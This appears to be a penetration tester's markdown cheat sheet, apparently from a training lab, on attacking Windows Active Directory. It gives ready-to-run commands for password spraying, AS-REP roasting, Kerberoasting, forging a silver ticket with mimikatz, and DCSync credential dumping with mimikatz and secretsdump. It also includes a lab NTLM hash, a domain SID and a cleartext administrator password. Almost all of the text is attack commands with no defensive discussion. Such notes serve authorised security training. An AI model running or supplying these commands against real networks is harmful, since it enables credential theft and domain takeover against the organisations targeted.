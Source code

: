 # Passwords Splay Attack

obtain the account policy
```
net accounts
```

## Powershell
using password spraying script
```
powershell -ep bypass
```

then execute [[Splay-Passwords.ps1]]
```
.\Splay-Password.ps1 -Pass Nexus123! -Admin
```
## netexec
SMB password spray 
```
nxc smb 192.168.x.x -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

against all domain joined machines
```
nxc smb ip.txt -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```
## kerbrute
download
```
https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe
```

execute
```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

# AS-REP Roasting

## Impacket-GetNPUsers
Using GetNPUsers to perform AS-REP roasting
```
impacket-GetNPUsers -dc-ip 192.168.x.x -request -outputfile hashes.asreproast corp.com/pete
```
## Rubeus
obetain the AS-REP hash
```
.\Rubeus.exe asreproast /nowrap
```

Cracking the AS-REP hash with hashcat [[../Password Attack/Password Crack|Password Crack]]

# Kerberoasting

## Impacket-GetUserSPNs
Using impacket-GetUserSPNs to perform Kerberoasting on Linux
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.x.x corp.com/pete
```
## Rubeus
perform a kerberoast attack
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

cracking the TGS-REP hash with hashcat [[../Password Attack/Password Crack|Password Crack]]


# Silver Ticket
need to collect the folloing three pieces of information
```
1. SPN password hash (NTLM)
2. Domain SID
3. Target SPN
```

using mimikatz to obtain the NTLM hash of the target user acount
```
privilege::debug
sekurlsa::logonpasswords
```

obtaining the domain SID
```
whoami /user
```

forging the service ticket the impersonating user and inject it into the current session
```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```


# Domain Controller Synchronization
members of the _Domain Admins_, _Enterprise Admins_, and _Administrators_ groups

## mimikatz
using mimikatz to obtain the credentials of user
```
lsadump::dcsync /user:corp\USERNAME
```

Administrator
```
lsadump::dcsync /user:corp\Administrator
```

## impacket-secretsdump
required ip of the DC in the format domain/user:password@ip

using secretsdump to perform the dcsync attack
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.x.x
```